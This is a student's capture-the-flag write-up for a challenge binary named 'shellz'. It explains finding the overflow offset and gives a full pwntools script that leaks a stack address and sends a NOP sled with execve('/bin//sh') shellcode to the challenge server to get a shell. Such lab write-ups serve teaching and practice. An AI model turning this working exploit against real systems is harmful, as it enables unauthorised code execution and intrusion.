 shellz
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoid2FyMy1zaGVsbHoiLCJpcCI6IjEyMy4yNDMuNi4xMzYiLCJzZXNzaW9uIjoiN2Y5YzhjNGQtYzc2YS00MDdmLWFjMDUtYjBiYzAwOTE5NzgyIn0.-jVyrwhcO-pt2jhTASPpEDDvvKHCDu-XyWRN2j4chjQ}

General overview of problems faced
-------------------------------------
When running this binary, it states that there isn't a win function, yet the stack is executable. This makes me believe I am going to want to execute shellcode that pops a shell. It also gives a random stack address, which I believe I am going to want to extract and then jump to.

After displaying this info, it then gives me a buffer in which I can write into. To determine the offset from the start of this buffer to the return address, I used the command 'python3 -c "print('a' * 8200)" | challenges/./shellz' to run the binary with different amounts of input. From trial and error, I was able to determine that passing in 8200 bytes caused an overflow, yet anything less did not.

Hence, my plan is to overflow the buffer with 8200 bytes until I reach the EIP register which contains the return address, at which point I can point it to the random stack address. Now whilst it would be ideal to place my shellcode at this address exactly, this is too difficult. 

What I can do however, is place a NOP sled in my overflow so that if this random address happens to be overwritten by a NOP instruction, it will keep executing them until it reaches the shellcode which I place after the NOP sled.

Script/Command used
------------------
```
p = remote("plsdonthaq.me", 3002)

# First we extract the 'random stack address' which we want to return to
p.recvuntil("random stack address: ")
randomStack = int(p.recvline()[:-1], 0)

# Here is the shellcode to pop a shell. It first sets eax to 0 and pushes it to the
# stack, and then pushes the string "/bin//sh". After this, we move the arguments
# into their registers, and then move the value for execve into the lower 8 bits
# of eax, and then call it using int 0x80.
shellcode = asm("""
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov ecx, eax
mov edx, eax
mov al, SYS_execve
int 0x80
""")

# Here we send our payload for the buffer overflow. We use the filler parameter to
# input our NOP sled. Since our return address is at an offest of 8200 bytes, this is
# the offset that we place the stack address we want to jump to.

# We also want to include our shellcode in this payload. As for the offset to place
# it, we want it as late in the payload as possible to maximise the chance we land
# on the NOP sled preceding it. Hence, we determine it is 23 bytes long using
# log.info(len(shellcode)), and then add an extra 8 bytes of buffer between the
# shellcode and return address, giving us 8200 - 8 - 23 = 8169.
p.sendline(flat({
  8169: shellcode,
  8200: p32(randomStack)
  }, filler=b"\x90"))

# Now we should have shell access, and can use 'cat flag' to view the flag
```